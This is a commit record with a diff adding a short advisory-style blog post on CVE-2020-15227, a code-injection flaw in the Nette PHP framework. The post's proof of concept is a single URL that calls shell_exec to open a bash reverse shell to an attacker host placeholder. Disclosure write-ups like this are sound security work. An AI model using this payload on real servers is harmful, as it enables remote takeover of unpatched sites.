

Before and after one commit to Viralmaniar/viralmaniar.github.io, a Jekyll site: the page built from _posts/2020-16-10-Nette Framework: CVE-2020-15227.md, in a window 1280 px wide and 900 px high, scrolled down 193 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
Update 2020-16-10-Nette Framework: CVE-2020-15227.md

````diff
--- a/_posts/2020-16-10-Nette Framework: CVE-2020-15227.md
+++ b/_posts/2020-16-10-Nette Framework: CVE-2020-15227.md
@@ -18,3 +18,21 @@ tags:
 
 # Nette Framework:
 Nette Framework is an open-source framework for creating web applications in PHP 5 and 7. It supports AJAX, DRY, KISS, MVC and code reusability. Original author of the framework is David Grudl, but further development is now maintained by the Nette Foundation organization. Nette is a free software released under both[2] the New BSD license and the GNU GPL version 2 or 3.
+
+# Issue Description:
+Packages nette/application versions prior to 2.2.10, 2.3.14, 2.4.16, 3.0.6 and nette/nette versions prior to 2.0.19 and 2.1.13 are vulnerable to an code injection attack by passing specially formed parameters to URL that may possibly leading to RCE.
+
+Thanks to Cyku Hong
+
+# Proof of Concept:
+```
+/nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1
+```
+
+# Impact:
+
+Code injection, possible remote code execution.
+
+# Recommendation:
+
+Update Nette Framework to latest version.
````
